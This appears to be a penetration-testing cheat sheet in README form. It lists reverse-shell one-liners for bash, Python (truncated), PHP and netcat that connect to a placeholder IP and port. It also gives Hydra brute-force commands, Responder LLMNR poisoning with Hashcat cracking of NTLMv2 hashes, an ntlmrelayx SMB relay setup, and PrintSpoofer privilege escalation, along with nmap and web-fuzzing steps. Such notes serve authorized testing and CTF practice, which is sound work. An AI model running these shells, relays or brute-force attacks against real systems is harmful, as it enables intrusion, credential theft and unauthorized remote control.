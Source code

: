 # Reverse shells

## Bash
bash -i >& /dev/tcp/<IP_ADDRESS>/<PORT> 0>&1

## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ADDRESS>",<PORT>));

## PHP
php -r '$sock=fsockopen("<IP_ADDRESS>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

## Netcat
nc -e /bin/sh <IP_ADDRESS> <PORT>

# Nmap

## Basic Nmap scan
nmap -sV -sC -vv <IP_ADDRESS>

## Comprehensive Nmap scan
nmap -sV -sC -vv -p- <IP_ADDRESS>

## Nmap says it's down?
nmap -Pn..

## What to note from Nmap scans
- Open ports
- Running services
- Service versions -> Look for exploits online or using searchsploit
- FTP Anonymous login allowed?
- Is RDP running?
- Non-standard ports for services such as ssh, http etc..

# Web testing

## Initial steps (not in order)
1. Check for common dirs (robots.txt, wp-login.php etc..)
2. Fuzz dirs with ffuf & dirb -> ffuf -w <WORDLIST_PATH>:FUZZ -u <URL>/FUZZ
3. Any page that takes URL parameters?
4. What technologies are running? (Use Wappalyzer extension, check response headers etc..)
5. Check page sources
6. Any JS scripts?
7. Anything in local storage or any cookies? (Decode if possible -> Possible session hijack) 
8. Move on to SQLi vectors, mess around with requests using Burpsuite/OWASP ZAP

# FTP

## FTP Anonymous login
-> Username: anonymous
-> Password: ""

# SMB

- Try user "guest" and no password

## smbmap

- Example: smbmap -H <HOST>

## smbclient

- List shares:	smbclient -L \\\\<HOST>
- Connect: 	smbclient \\\\<HOST>\\<SHARE>

# Brute-forcing services

- Burpsuite
- OWASP ZAP

## Hydra

- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> ssh://<IP_ADDRESS>
- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> <IP_ADDRESS> ssh -s <PORT>
- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> <TARGET_IP> http-post-form "/Account/login.aspx:<Paste request body from network -> view raw, replace fields with ^USER^ and ^PASS^>:Login failed"

# Active Directory

## Using Responder for LLMNR poisoning
- This is very noisy
- Can only be done on the same network
- Might take a lot of time to intercept traffic

sudo responder -I <INTERFACE>

### Crack captured hashes from Responder with Hashcat
hashcat -m 5600 <HASH_FILE> <PASSWORD_FILE> --force
"-m 5600" -> is for NTLMv2 hashes, check formats with --help

## SMB Relay attack
- Turn off SMB & HTTP in Responder.conf

### Check if a host has SMB signing disabled with Nmap
nmap --script=smb2-security-mode.nse -p 445 <IP/CIDR>

### Listen for events in Responder

### Set up relay

ntlmrelayx.py -tf <TARGET_LIST_FILE> -smb2support

# Windows misc

## Hosts file
-> C:\Windows\System32\drivers\etc\hosts

# Privilege escalation

## Windows privesc

### 1 (From simple reverse shell)
-> whoami /priv
-> (SeImpersonatePrivilege        Impersonate a client after authentication Enabled) ?
-> Use PrintSpoofer.exe
-> PrintSpoofer.exe -i -c cmd
